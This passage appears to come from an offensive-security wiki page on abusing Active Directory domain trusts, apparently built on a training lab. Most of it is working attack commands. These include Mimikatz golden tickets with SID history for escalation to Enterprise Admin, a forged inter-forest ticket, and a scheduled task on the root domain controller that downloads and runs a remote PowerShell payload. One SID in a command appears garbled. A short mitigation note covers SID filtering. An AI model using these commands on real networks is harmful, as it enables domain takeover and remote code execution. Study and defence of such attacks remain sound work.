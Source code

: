 
For finding the **SID** of the **"Enterprise Admins"** group you can find the **SID** of the **root domain** and set it in  S-1-5-21_root domain_-519. For example, from root domain SID _S-1-5-21-280534878-1496970234-700767426_ the "Enterprise Admins"group SID is _S-1-5-21-280534878-1496970234-700767426-519_

[http://www.harmj0y.net/blog/redteaming/a-guide-to-attacking-domain-trusts/](http://www.harmj0y.net/blog/redteaming/a-guide-to-attacking-domain-trusts/)

```bash
.\asktgs.exe C:\AD\Tools\kekeo_old\trust_tkt.kirbi CIFS/mcorp-dc.moneycorp.local 
 .\kirbikator.exe lsa .\CIFS.mcorpdc.moneycorp.local.kirbi
 ls \\mcorp-dc.moneycorp.local\c$
```

Escalate to DA of root or Enterprise admin using the KRBTGT hash of the compromised domain:

```bash
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-211874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234700767426-519 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /ticket:C:\AD\Tools\krbtgt_tkt.kirbi"'
Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\Tools\krbtgt_tkt.kirbi"'
gwmi -class win32_operatingsystem -ComputerName mcorpdc.moneycorp.local
schtasks /create /S mcorp-dc.moneycorp.local /SC Weekely /RU "NT Authority\SYSTEM" /TN "STCheck114" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.114:8080/pc.ps1''')'"
schtasks /Run /S mcorp-dc.moneycorp.local /TN "STCheck114"
```

### External Forest Domain Privilege escalation

In this case you can **sign with** the **trusted** key a **TGT impersonating** the **Administrator** user of the current domain. In this case you **won't always get Domain Admins privileges in the external domain**, but **only** the privileges the Administrator user of your current domain **was given** in the external domain.

```bash
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<current domain> /SID:<current domain SID> /rc4:<trusted key> /target:<external.domain> /ticket:C:\path\save\ticket.kirbi"'
```

### Domain trust abuse mitigation

**SID Filtering:**

* Avoid attacks which abuse SID history attribute across forest trust.
* Enabled by default on all inter-forest trusts. Intra-forest trusts are assumed secured by default \(MS considers forest and not the domain to be a security boundary\).
* But, since SID filtering has potential to break applications and user access, it is often disabled.
* Selective Authentication
  * In an inter-forest trust, if Selective Authentication is configured, users between the trusts will not be automatically authenticated. Individual access to domains and servers in the trusting domain/forest should be given.

\*\*\*\*[**More information about domain trusts in ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/child-domain-da-to-ea-in-parent-domain)\*\*\*\*
